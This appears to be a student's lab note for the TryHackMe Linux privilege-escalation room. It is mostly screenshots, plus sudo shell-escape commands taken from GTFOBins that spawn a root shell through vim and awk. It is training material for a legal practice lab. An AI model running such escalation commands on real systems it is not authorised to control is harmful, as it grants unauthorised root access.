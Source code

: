 https://tryhackme.com/room/linuxprivesc
# Identification
---
![[Pasted image 20250428150414.png]]

# Exploitation
---
- From https://gtfobins.github.io/:
	- ![[Pasted image 20250428150522.png]]

- `sudo vim -c ':!/bin/bash'`
	- ![[Pasted image 20250428150711.png]]
- `awk`:
	- ![[Pasted image 20250428150821.png]]
	- `sudo awk 'BEGIN {system("/bin/sh")}'`
	- ![[Pasted image 20250428150900.png]]
- `more`:
	- ![[Pasted image 20250428151423.png]]